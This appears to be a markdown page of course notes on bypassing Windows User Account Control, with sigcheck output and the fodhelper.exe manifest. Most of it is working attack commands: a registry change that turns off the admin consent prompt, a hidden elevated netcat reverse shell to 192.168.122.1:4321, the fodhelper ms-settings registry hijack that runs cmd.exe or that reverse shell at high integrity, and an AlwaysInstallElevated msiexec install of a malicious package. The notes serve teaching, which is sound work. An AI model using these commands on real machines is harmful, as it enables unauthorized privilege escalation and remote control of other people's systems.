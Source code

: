 ## UAC Bypass

Certain executables signed by Microsoft can be used to bypass UAC, since they are started with higher integrity levels if the user executing them belongs to the administrator group.

```powershell
Start-Process -FilePath "powershell.exe" -Verb RunAs
```

```cmd
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin /t REG_DWORD /d 0 /f
```

## sigcheck.ex

To check if a binary starts as `autoelevated automatically` you can use the `sigcheck.exe` utility from Sysinternals to read the `Manifest` of the binary.

```cmd
.\Sigcheck\sigcheck.exe -a -m C:\Windows\System32\fodhelper.ex
```

Manifest of fodhelper.ex

```cmd
.\Sigcheck\sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\windows\system32\fodhelper.exe:
		Verified:       Signed
		Signing date:   02:16 05/10/2024
		Publisher:      Microsoft Windows
		Company:        Microsoft Corporation
		Description:    Features On Demand Helper
		Product:        Microsoft« Windows« Operating System
		Prod version:   10.0.22621.4249
		File version:   10.0.22621.4249 (WinBuild.160101.0800)
		MachineType:    64-bit
		Binary Version: 10.0.22621.4249
		Original Name:  FodHelper.EXE
		Internal Name:  FodHelper
		Copyright:      ® Microsoft Corporation. All rights reserved.
		Comments:       n/a
		Entropy:        4.803
		Manifest:
```

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!-- Copyright (c) Microsoft Corporation -->
<assembly
	xmlns="urn:schemas-microsoft-com:asm.v1"
	xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"
	manifestVersion="1.0">
  <assemblyIdentity type="win32" publicKeyToken="6595b64144ccf1df" name="Microsoft.Windows.FodHelper" version="5.1.0.0" processorArchitecture="amd64"/>
  <description>Features On Demand Helper UI</description>
  <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
   <security>
	   <requestedPrivileges>
		   <requestedExecutionLevel
		     level="requireAdministrator"
		   />
		</requestedPrivileges>
	</security>
	</trustInfo>
	<asmv3:application>
		<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
			<dpiAware>true</dpiAware>
			<autoElevate>true</autoElevate>
		</asmv3:windowsSettings>
	</asmv3:application>
</assembly>
```

## Level 0 - easy

In this level, there is nothing to bypass, you can simply spawn a process at a higher integrity level as follows:

```powershell
Start-Process -FilePath "C:\Users\Quickemu\Downloads\nc64.exe" -ArgumentList "192.168.122.1 4321 -e cmd.exe" -Verb RunAs -WindowStyle Hidden
```

If you belong to an administrator group, then you will get access to your full administrator powers.

Notice that doing `Start-Process` is different from simply starting a process directly, since integrity level are inherited from parent processes, unless started explicitly with `Start-Process`.

The command options `-Verb RunAs` is used for requesting elevation of integrity levels and it makes sure that the new process will be started with a higher integrity level.

## Level 5 - fodhelper.exe

Let's say we have a level of UAC that is level 5.

We can use the Windows Utility `Features on Demand` (FoD) to bypass the UAC prompt. Specifically, Windows treat the `fodhelper.exe` as a trusted system application, and so it runs it with `high integrity` without triggering a UAC prompt.

The attack works in two steps:
1. In the first step the attacker modifies the `Registry` in order to  configure the malicious command that will be run with high integrity levels.
2. In the second step, the `fodhelper.exe` binary is executed.

---

In practice, first we create the registry item

```powershell
New-Item -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Force
```

Then we configure it with the malicious values to execue a `cmd.exe`
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Name '(Default)' -Value 'cmd.exe' -Type String
```

```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Name 'DelegateExecute' -Value '' -Type String
```

 To execute a reverse shell:
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Name '(Default)' -Value 'C:\Users\Quickemu\Downloads\nc64.exe 192.168.122.1 4321 -e cmd.exe' -Type String
```

## Level 1,2,3,4 - Always Install Elevated

If the `Always Install Elevated` configuration is enabled, it is possible to trigger arbitrary code as the system account during the installation of malicious `.msi` packages.

```powershell
msiexec /quiet /qn /i sample2.msi
```

This will bypass any UAC levels.

## References

Hack Tricks, UAC - User Account Control: https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control

By Pass UAC Using Fodhelper: https://nadimsaliby.medium.com/by-pass-uac-using-fodhelper-e4a94e04d5f0

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-11-22-windows-privesc-uac-bypass/content/notes.txt